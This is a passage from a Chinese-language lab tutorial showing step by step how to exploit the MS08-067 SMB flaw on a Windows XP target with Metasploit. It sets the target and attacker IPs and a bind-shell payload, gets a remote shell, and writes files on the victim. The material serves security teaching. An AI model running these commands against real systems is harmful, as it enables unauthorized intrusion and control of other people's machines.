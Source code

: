 ![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRPP62Y2AxveFicibicAEcESFZN5RHRiaVxpmKW637068CNkcibX22OlIpJDED2YtFwv22FLrZncpIFG7fw/640?wx_fmt=png)

第三步，进入漏洞模块，并查看相关的使用说明。  
使用 use 命令选择我们要使用的利用模块。target 设置为系统默认是自动定位，如果需要精确定位，可以 show targets 查看所有，然后进行选择。

```
use exploit/windows/smb/ms08_067_netapi
show options
show targets
```

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRPP62Y2AxveFicibicAEcESFZNpVmQTAU25gT1MOEGBNPduRxtKZA4NK6PenuvgiaMu9l8NFic8Z1HRiaDg/640?wx_fmt=png)

第四步，设置攻击机、受害机信息。

```
# 目标机ip
set RHOST 192.168.44.135
# 端口号
set RPORT 445
# 设置payload
set payload generic/shell_bind_tcp
# 攻击机ip
set LHOST 192.168.44.136
# 设置自动类型
set target 0
# 显示配置信息
show options
```

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRPP62Y2AxveFicibicAEcESFZNsssObTgU4AyUcRGTOMByynNfQliaFSNU5bO25IcXaXzHwwN4OnlQS5w/640?wx_fmt=png)

第五步，运行 exploit 反弹 shell。  
此时我们成功获取了 Windows XP 系统的 Shell，我们调用 “ipconfig” 查看的 IP 地址也是目标的“192.168.44.135”。

```
exploit
session 1
ipconfig
pwd
```

![](https://mmbiz.qpic.cn/mmbiz_png/0RFmxdZEDRPP62Y2AxveFicibicAEcESFZNBLPyeLiaGITKn6Ws4ia7XHz74Xk7icxKFUib68HicQaszb0fHn59BeXvh0w/640?wx_fmt=png)

注意：Windows XP SP1 系统是中文而不是英文的，需要对下面文件处理。

*   ms08_067_netapi_ser2003_zh.rb  
      
    

第六步，在目标主机上创建文件夹及文件。

```
cd ..
# 创建文件夹
mkdir hacker
# 访问目录
dir
cd hacker
# 创建文件并写入内容
echo eastmount>test.txt
# 查看目标系统的基本信息
sysinfo
```
